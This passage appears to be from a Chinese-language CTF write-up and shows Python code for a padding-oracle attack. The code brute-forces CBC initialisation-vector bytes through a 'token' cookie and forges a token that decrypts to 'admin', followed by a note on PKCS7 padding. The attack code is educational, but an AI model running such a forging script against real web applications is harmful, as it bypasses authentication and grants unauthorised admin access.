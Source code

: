 ```python
        cookies['token'] = base64.b64encode(''.join(tmp_ivs))
        resp = requests.get(base_url, cookies=cookies,
                            proxies={'http': 'http://127.0.0.1:8080'})
        if 'ERROR' not in resp.content:
            value.append(flag ^ i)
            # 更改初始向量
            tmp_iv = '0' * (16-len(value)) + ''.join(chr(value[i] ^ (flag+1))
                                        for i in range(len(value)-1, -1, -1))
            tmp_ivs = list(tmp_iv)

            print flag, i, value
            break
        if i == 255:
            print resp.content
            print 'error'
            sys.exit(0)

# 逆序
value.reverse()

fake_id = 'admin' + chr(11) * 11
for i in range(256):
    # 爆破value 第一个字符
    value = chr(i) + ''.join(chr(v) for v in value)
    iv = str_xor(value, fake_id)
    cookies['token'] = base64.b64encode(iv)
    resp = requests.get(base_url, cookies=cookies)
    if 'ERROR' not in resp.content and len(resp.content) > 139:
        print value
        print resp.content
```

## 后记

openssl_encrypt() 函数 options参数为`OPENSSL_RAW_DATA`, 使用的是`PKCS7`填充模式
